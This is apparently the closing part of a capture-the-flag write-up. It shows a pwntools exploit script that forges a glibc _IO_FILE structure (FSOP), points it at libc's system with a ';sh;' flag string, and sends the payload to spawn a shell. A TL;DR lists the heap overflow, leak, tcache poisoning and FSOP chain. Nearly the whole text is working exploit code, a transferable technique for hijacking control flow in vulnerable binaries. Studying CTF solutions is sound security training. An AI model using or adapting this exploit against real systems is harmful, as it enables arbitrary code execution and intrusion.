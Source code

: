 ```python
    _offset = 0, _codecvt = 0, _wide_data = 0, _freeres_list = 0, _freeres_buf = 0,\
    __pad5 = 0, _mode = 0, _unused2 = b"", vtable = 0, more_append = b""):
        
        FSOP = p64(flags) + p64(_IO_read_ptr) + p64(_IO_read_end) + p64(_IO_read_base)
        FSOP += p64(_IO_write_base) + p64(_IO_write_ptr) + p64(_IO_write_end)
        FSOP += p64(_IO_buf_base) + p64(_IO_buf_end) + p64(_IO_save_base) + p64(_IO_backup_base) + p64(_IO_save_end)
        FSOP += p64(_markers) + p64(_chain) + p32(_fileno) + p32(_flags2)
        FSOP += p64(_old_offset) + p16(_cur_column) + p8(_vtable_offset) + p8(_shortbuf) + p32(0x0)
        FSOP += p64(lock) + p64(_offset) + p64(_codecvt) + p64(_wide_data) + p64(_freeres_list) + p64(_freeres_buf)
        FSOP += p64(__pad5) + p32(_mode)
        if _unused2 == b"":
            FSOP += b"\x00"*0x14
        else:
            FSOP += _unused2[0x0:0x14].ljust(0x14, b"\x00")
        
        FSOP += p64(vtable)
        FSOP += more_append
        return FSOP
    libc = ELF("./libc.so.6")
    ## Fix here ##
    libc.address = libc_base
    _IO_file_jumps = libc.symbols['_IO_file_jumps']
    stdout = libc.symbols['_IO_2_1_stdout_']
    log.info("stdout: " + hex(stdout))
    ############
    
    FSOP = FSOP_struct(flags = u64(b"\x01\x01;sh;\x00\x00"), \
            lock            = libc.symbols['_IO_2_1_stdout_'] + 0x10, \
            _IO_read_ptr    = 0x0, \
            _IO_write_base  = 0x0, \
            _wide_data      = libc.symbols['_IO_2_1_stdout_'] - 0x10, \
            _unused2        = p64(libc.symbols['system'])+ b"\x00"*4 + p64(libc.symbols['_IO_2_1_stdout_'] + 196 - 104), \
            vtable          = libc.symbols['_IO_wfile_jumps'] - 0x20, \
            )
    payload = b"A"* 0x6c0 + FSOP
    pause()
    p.send(payload)

    p.sendline("cat flag")
    p.interactive()
    return

```

## Todo List
### TL;DR
Heap overflow using newline - heap leak with pointer partial overwrite - libc leak with chunk overlapping  - tcache poisoning - FSOP for AAW - FSOP for shell
